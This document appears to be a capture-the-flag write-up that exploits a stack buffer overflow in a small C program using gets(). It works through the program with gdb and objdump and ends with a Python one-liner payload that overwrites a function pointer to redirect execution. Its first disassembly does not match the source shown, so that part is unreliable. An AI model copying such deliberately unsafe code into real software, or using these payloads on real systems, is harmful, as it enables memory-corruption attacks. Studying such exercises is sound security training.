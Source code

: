 Let's look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int nothing_interesting()
{

    printf("Level Cleared\n");
}

int main()
{
    char buf1[55];
    char buf0[300];
    volatile int (*var1)();
    var1 = 0;

    gets(buf0);

    if (var1)
    {
        printf("Wait, you aren't supposed to be here\n");
        var1();
    }

    else
    {
        printf("O look you didn't solve this. How very predictable\n");
    }
}
```

So we can see that our objective lies in the nothing_interesting() function. However it doesn't call it anywhere in the main function.
However it does call a function, which was declared as a volatile int. In addition to that it has a buffer overflow vulnerabillity where it uses gets() to read into buf0.
So we should be able to exploit this program by overflowing buf0 to rewrite var1 with the address of the nothing_interesting() function.
This way, the if then statement will evaluate as true and when the var1() call runs, it will run the nothing_interesting() function. Also
buf1 doesn't serve any purpose as far as I can tell. It's just there to troll with you. So let's solve this with gdb.

First fire up gdb
```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b1_64$ gdb ./b1_64
```

One wall of text later...

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400566 <+0>: push   rbp
   0x0000000000400567 <+1>: mov    rbp,rsp
   0x000000000040056a <+4>: sub    rsp,0x1f0
   0x0000000000400571 <+11>:    lea    rax,[rbp-0x1f0]
   0x0000000000400578 <+18>:    mov    rdi,rax
   0x000000000040057b <+21>:    mov    eax,0x0
   0x0000000000400580 <+26>:    call   0x400450 <gets@plt>
   0x0000000000400585 <+31>:    cmp    DWORD PTR [rbp-0x4],0x44864486
   0x000000000040058c <+38>:    jne    0x400598 <main+50>
   0x000000000040058e <+40>:    mov    edi,0x400628
   0x0000000000400593 <+45>:    call   0x400430 <puts@plt>
   0x0000000000400598 <+50>:    mov    eax,0x0
   0x000000000040059d <+55>:    leave  
   0x000000000040059e <+56>:    ret    
End of assembler dump.
```

So right now, we are looking at the assembly code. First thing we should figure out is how much data we will need to input in order to overflow the buffer and write over the
var1 volatile int. Let's see if we can find out where in memeory the buffer starts.

```
   0x0000000000400571 <+11>:    lea    rax,[rbp-0x1f0]
   0x0000000000400578 <+18>:    mov    rdi,rax
   0x000000000040057b <+21>:    mov    eax,0x0
   0x0000000000400580 <+26>:    call   0x400450 <gets@plt>
```

Looking here we can see the assembly call for the gets() function. We know that the gets() function uses buf0 (the buffer we are after) as it's argument.
Thing is we see the lea instruction with a stack position. The lea address prepares an area of memory (like a buffer) to be pushed onto the stack and used by a function.
Since function paramters are pushed onto the stack right before the function is called, it is probably the buffer we are after which is stored at rbp-0x1f0.

Next we need to see where the int is stored. We know that it is used in an if then statement, which assembly does that through the use of a cmp function (cmp function just compares two things by subtracting one from another).

```
   0x0000000000400585 <+31>:    cmp    DWORD PTR [rbp-0x4],0x44864486
   0x000000000040058c <+38>:    jne    0x400598 <main+50>
```

So we can see that a value on the stack is being compared to 0 (which is what ints are compared to in an if then statment like the one were dealing with).
So we can be pretty sure that the stack location is ebp-0xc.

So we need to find out the stack locations of the int and the char. Let's fire up gdb.

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400577 <+0>: push   rbp
   0x0000000000400578 <+1>: mov    rbp,rsp
   0x000000000040057b <+4>: sub    rsp,0x170
   0x0000000000400582 <+11>:    mov    QWORD PTR [rbp-0x8],0x0
   0x000000000040058a <+19>:    lea    rax,[rbp-0x170]
   0x0000000000400591 <+26>:    mov    rdi,rax
   0x0000000000400594 <+29>:    mov    eax,0x0
   0x0000000000400599 <+34>:    call   0x400450 <gets@plt>
   0x000000000040059e <+39>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004005a3 <+44>:    je     0x4005bc <main+69>
   0x00000000004005a5 <+46>:    mov    edi,0x400668
   0x00000000004005aa <+51>:    call   0x400430 <puts@plt>
   0x00000000004005af <+56>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004005b3 <+60>:    mov    eax,0x0
   0x00000000004005b8 <+65>:    call   rdx
   0x00000000004005ba <+67>:    jmp    0x4005c6 <main+79>
   0x00000000004005bc <+69>:    mov    edi,0x400690
   0x00000000004005c1 <+74>:    call   0x400430 <puts@plt>
   0x00000000004005c6 <+79>:    mov    eax,0x0
   0x00000000004005cb <+84>:    leave  
   0x00000000004005cc <+85>:    ret    
End of assembler dump.
gdb-peda$ b *main+39
Breakpoint 1 at 0x40059e
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b2_64/b2_64 
75395128
```

One wall of text later...

```
Breakpoint 1, 0x000000000040059e in main ()
gdb-peda$ x $rbp-0x170
0x7fffffffdcf0: 0x3832313539333537
gdb-peda$ x $rbp-0x8
0x7fffffffde58: 0x0000000000000000
```
And switching over to python

```
>>> 0x7fffffffdcf0 - 0x7fffffffde58
-360
```

So as you can see, the difference is 360 bytes (reason why it is negative is because we subtraced the larger address from the smaller address). So we should be able to write 361 characters and overflow the variable. Let's try it.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b2_64$ python -c 'print "0"*361' | ./b2_64 
Wait, you aren't supposed to be here
Segmentation fault (core dumped)
```

So we have determined the buffer. Next thing is we need the address of the nothing_interesting() function. We can get it using objdump.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b2_64$ objdump -D b2_64 | grep nothing
0000000000400566 <nothing_interesting>:
```

So we have the address of the nothing_interesting() function which is 0x0000000000400566. So let's consrtuct the payload. Our payload will consist of two entities.

```
Filler = 360 characters

Address = 0x0000000000400566 (in little endian)
```

So let's try our exploit...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b2_64$ python -c 'print "0"*360 + "\x66\x05\x40\x00\x00\x00\x00\x00"' | ./b2_64 
Wait, you aren't supposed to be here
Level Cleared
```

And just like that, we pwned the binary. 

